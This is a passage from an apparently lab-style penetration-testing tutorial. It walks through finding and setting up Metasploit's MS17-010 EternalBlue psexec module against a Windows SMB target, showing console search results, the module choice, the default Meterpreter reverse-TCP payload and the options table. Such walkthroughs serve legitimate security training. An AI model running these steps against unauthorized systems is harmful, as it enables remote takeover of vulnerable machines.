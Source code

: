 Now, we can see from the check results that our target is likely vulnerable to EternalBlue. Let's set up the exploit and payload now, then give it a shot.

1. Select Exploit & Payload, then Deliver

#### Choose & Configure Our Exploit & Payload

```shell
msf6 > search eternal

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

```

For this instance, we dug through MSF's exploit modules utilizing the search function to look for an exploit matching EternalBlue. The list above was the result. Since I have had more luck with the `psexec` version of this exploit, we will try that one first. Let's choose it and continue the setup.

#### Configure The Exploit & Payload

```shell
msf6 > use 2
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > options

Module options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting              Required  Description
   ----                  ---------------              --------  -----------
   DBGTRACE              false                        yes       Show extra debug trace info
   LEAKATTEMPTS          99                           yes       How many times to try to leak transaction
   NAMEDPIPE                                          no        A named pipe that can be connected to (leave bl
                                                                ank for auto)
   NAMED_PIPES           /usr/share/metasploit-frame  yes       List of named pipes to check
                         work/data/wordlists/named_p
                         ipes.txt
   RHOSTS                                             yes       The target host(s), range CIDR identifier, or h
                                                                osts file with syntax 'file:<path>'
   RPORT                 445                          yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                no        Service description to to be used on target for
                                                                 pretty listing
   SERVICE_DISPLAY_NAME                               no        The service display name
   SERVICE_NAME                                       no        The service name
   SHARE                 ADMIN$                       yes       The share to connect to, can be an admin share
```